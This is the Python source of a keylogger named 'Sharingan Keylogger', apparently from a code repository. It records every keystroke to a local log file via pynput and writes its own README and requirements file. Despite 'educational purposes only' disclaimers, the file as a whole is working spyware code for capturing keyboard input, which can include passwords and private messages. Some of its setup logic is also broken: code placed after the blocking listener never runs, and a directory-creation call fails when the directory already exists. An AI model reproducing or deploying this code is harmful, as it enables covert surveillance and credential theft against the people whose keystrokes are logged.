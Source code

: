 # main.py
# Sharingan Keylogger - Keyboard Input Monitoring Tool
# Warning: This tool is for educational purposes only. Stay within ethical and legal boundaries.

from pynput.keyboard import Listener
import os

# Directory and file name for logs
LOG_DIR = "logs"
LOG_FILE = "keylog.txt"

# Create log directory if it doesn't exist
if not os.path.exists(LOG_DIR):
    os.makedirs(LOG_DIR)

log_path = os.path.join(LOG_DIR, LOG_FILE)

# Function to write to the log file
def write_to_file(key):
    with open(log_path, "a") as file:
        file.write(key + "\n")

# Callback function when a key is pressed
def on_press(key):
    try:
        # Normal characters
        write_to_file(str(key.char))
    except AttributeError:
        # Special keys (Shift, Enter, Backspace, etc.)
        write_to_file(str(key))

# Start the listener
with Listener(on_press=on_press) as listener:
    listener.join()

# Creating additional files
# requirements.txt
txt_path = "requirements.txt"
requirements_content = "pynput\n"
with open(txt_path, "w") as req_file:
    req_file.write(requirements_content)

# README.md
readme_path = "README.md"
readme_content = """# Sharingan Keylogger

This project is a tool for monitoring keyboard inputs. It is intended to be used within ethical boundaries and for educational purposes only.

## Installation
1. Install the required dependencies:
   ```
   pip install -r requirements.txt
   ```
2. Run the `main.py` file:
   ```
   python main.py
   ```

## Warning
This tool is for educational and personal use only. Any misuse is the sole responsibility of the user.

## Ownership
This project was developed solely by **THEkuroix**, and all rights are reserved.

"""
with open(readme_path, "w") as readme_file:
    readme_file.write(readme_content)

# logs/keylog.txt
log_dir = "logs"
log_file_path = os.path.join(log_dir, "keylog.txt")
if not os.path.exists(log_file_path):
    os.makedirs(log_dir)
    with open(log_file_path, "w") as log_file:
        log_file.write("")
